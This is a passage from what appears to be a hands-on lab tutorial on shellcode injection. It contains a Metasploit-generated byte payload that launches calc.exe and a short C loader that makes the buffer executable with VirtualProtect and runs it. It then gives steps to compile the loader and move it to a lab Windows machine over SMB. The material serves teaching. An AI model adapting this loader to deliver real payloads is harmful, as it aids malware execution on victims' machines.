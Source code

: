 As a result, the Metasploit framework generates a shellcode that executes the Windows calculator (calc.exe). The Windows calculator is widely used as an example in the Malware development process to show a proof of concept. If the technique works, then a new instance of the Windows calculator pops up. This confirms that any executable shellcode works with the method used.  

### Shellcode injection

Hackers inject shellcode into a running or new thread and process using various techniques. Shellcode injection techniques modify the program's execution flow to update registers and functions of the program to execute the attacker's own code.

Now let's continue using the generated shellcode and execute it on the operating system. The following is a C code containing our generated shellcode which will be injected into memory and will execute "calc.exe".

On the AttackBox, let's save the following in a file named `calc.c`:

```
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Now let's compile it as an exe file:

![task5-terminal2](./images/task5-terminal2.png)

Once we have our exe file, let's transfer it to the Windows machine and execute it. To transfer the file you can use smbclient from your AttackBox to access the SMB share at \\MACHINE_IP\Tools with the following commands (remember the password for the `thm` user is `Password321`):

![task5-terminal3](./images/task5-terminal3.png)
